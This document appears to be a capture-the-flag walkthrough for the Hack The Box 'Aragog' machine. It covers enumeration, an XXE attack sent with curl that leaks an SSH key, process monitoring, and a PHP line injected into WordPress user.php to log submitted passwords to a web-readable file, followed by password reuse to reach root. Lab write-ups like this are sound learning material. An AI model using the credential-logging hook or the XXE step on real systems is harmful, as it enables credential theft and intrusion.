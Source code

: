 1-  First you've to enumerate the machine with [Nmap](</General Info/Tools/Enumeracion/Nmap.md>) and also use [GoBuster](</General Info/Tools/Enumeracion/GoBuster.md>) and [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) in order to find some files of the page.
2 - After doing all this enumeration you'll find a `test.txt` file in the ftp with the anon user listed in Nmap. Another thing you could find is the file hosts.php with the [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) tool. Once you've this two things you can combine them with the usage of curl to send a payload via a [XXE - XML External Entities Injection](</General Info/Tecnologias Web/Ataques/XXE - XML External Entities Injection.md>). The command you've to run is `curl -s -X POST -d @test.xml http://aragog.htb/hosts.php` in order to execute the curl tool in Silent mode, with the POST method and sending the content of the test.xml file as the body. The code that you should have in the test.xml file is in the [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>) resource.
3 - Once you've sent that payload you will get the id_rsa of the user __Florian__
4 - Now that you've used the id_rsa to get into the system via [SSH](</General Info/Tools/SSH.md>), you have to do some [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>). The thing that will pay off at the end is the usage of Pspy or the coding of a procmon tool to look for processes that run at a certain amount of time. The code can be seen in [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>).
5 - Once you've done this kind of enumeration you'll come acorss a certain tool called wp-login.py that's being executed regularly. Only the name gives us the idea that the script is making smth log into an account. Because of this behaviour and the fact that you've control over the Wordpress root directory you can intercept the credentials that are being sent by modifing the file user.php to make the login script create a file with the credentials that are being used to login the user in. The only thing that you've to do is add the following line in the part that looks if the credentials are being sent:
```
if (!empty($_POST['pwd']))
	$credentials['user_password'] = $_POST['pwd']
	
	file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)  # INSERTED MALICIOUS CODE
```
The main purpose of this added line is to create a file called __log.txt__ that contains the user and password sent via the POST method with the script called `wp-login.py`.

6. Now that you've all set up the only thing that's left is wait. You can do it by running the command `watch -n 1 curl -s -X GET "http://aragog.htb/dev_wiki/log.txt"` and looking for the content of the file until it changes into the credentials of the Administrator user of the page.
7. The last thing of the machine is, because the user has the bad habit of reusing the credentials, issue the command `su root` and enter the password obtained from the previous exploit. Now you can freely go to `/root` and cat out the __root.txt__ file and go to `/home/florian` and also cat out the __user.txt__ file.

### Things to have in mind

- Sometimes when you compromise a machine that runs Wordpress, you can go on and look for the file __wp-config.php__ in the root wordpress directory and find valid credentials for the databases running on the server. 